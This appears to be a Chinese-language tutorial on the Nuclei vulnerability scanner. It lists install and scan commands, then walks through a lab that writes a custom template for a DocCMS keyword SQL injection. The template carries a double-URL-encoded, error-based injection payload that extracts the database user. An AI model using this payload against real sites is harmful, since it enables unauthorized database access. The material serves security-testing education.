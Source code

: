 - [说明](#说明)
- [示例](#示例)
- [实验一](#实验一)

## 说明

> 漏洞扫描，批量检测，自定义POC <https://github.com/projectdiscovery/nuclei>

下载安装

```
# MacOSX
brew install nuclei
# Go
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
```

- 相关链接
  - [官方使用文档](https://nuclei.projectdiscovery.io/templating-guide/protocols/http/)
  - [README_CN](https://github.com/projectdiscovery/nuclei/blob/master/README_CN.md)

## 示例

```
# 使用模板模板扫描单个 URL
nuclei -u example.com -t template.xml

# 使用模板扫描文件内 url
nuclei -l URL.txt -t xxx.yaml

# 保存扫描结果到 result.txt
nuclei [options] -o result.txt

# 简化输出结果 重试次数5 超时时间10s
nuclei [options] -nm -retries 5 -timeout 10

# 更新引擎
nuclei -update

# 更新模板
nuclei -update-templates

# 扫描指定年份的所有CVE
echo https://example.com | nuclei -t 'cves/2021/*'

# 指定扫描文件夹内所有的 POC
echo https://example.com | nuclei -t 'vulnerabilities/moodle/*'
```

## 实验一

向 `https://example.com/search/index.php` 发送指定 GET 请求，返回响应包内包含 `ORDER BY id DESC` 字段的 URL，GET请求参数如下

```
keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33
```

**实验步骤：**

自定义yaml模板

```yaml
# 必要字段 ID
id: DocCMS-keyword-SQLi
# 必要字段INFO
info:
    name: DocCMS-keyword-SQLi
    author: kylin
    tags: sqli,DocCMS
    reference: http://wiki.peiqi.tech/wiki/cms/DocCMS/DocCMS%20keyword%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html
    severity: high
# HTTP请求数据包
requests:
  # 原始数据包(RAW)内容
  - raw:
    - |
      GET /search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33/ HTTP1.1
      Host: {{Hostname}}
    # 匹配字符串包含 ORDER BY id DESC
    matchers:
      - type: word
        words:
          - "ORDER BY id DESC"
```

指定 DocCMS-keyword-SQLi.yaml 模板并且指定 urls.txt 文件扫描

```
nuclei -l urls.txt -t DocCMS-keyword-SQLi.yaml
```

![图 4](/@attachment/images/Security/安全工具/nuclei_1661280665338.png)
